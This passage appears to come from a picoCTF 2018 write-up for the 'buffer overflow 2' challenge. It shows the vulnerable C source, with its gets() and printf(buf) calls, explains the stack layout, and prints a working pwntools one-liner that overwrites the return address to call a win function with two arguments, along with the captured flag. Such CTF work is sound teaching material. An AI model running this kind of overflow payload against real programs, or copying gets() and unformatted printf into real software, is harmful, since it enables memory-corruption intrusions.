 ```c
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Similar to `buffer overflow 1`, we can control the instruction pointer by overwriting the return address on the stack; however, this time we need to pass two arguments with calling the `win` function. This becomes easy once you understand how the stack is laid out:

* local variables
* base point and etc
* return address 1
* return address 2
* arguments for return function 1

So in this case, we our payload will be:

* 'a' * 100       <-- filling the buffer
* 'a' * 12        <-- overwrite some stuff that we don't care about
* p32(0x080485cb) <-- address for the `win` function (read my solution for [buffer overflow 1](#buffer-overflow-1) to see how I got this address)
* 'a' * 4         <-- pad out the second return address
* p32(0xDEADBEEF) <-- argument one
* p32(0xDEADC0DE) <-- argument two

Put all of this together, and we get the flag:

```
alanc@pico-2018-shell-2:/problems/buffer-overflow-2_4_ca1cb0da49310dd45c811348a235d257$ python -c "from pwn import *; print 'a'*(100+12)+p32(0x080485cb)+'P'*4+p32(0xDEADBEEF)+p32(0xDEADC0DE)" | ./vuln
Please enter your string:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaPPPPﾭ�����
picoCTF{addr3ss3s_ar3_3asy30723282}Segmentation fault
```
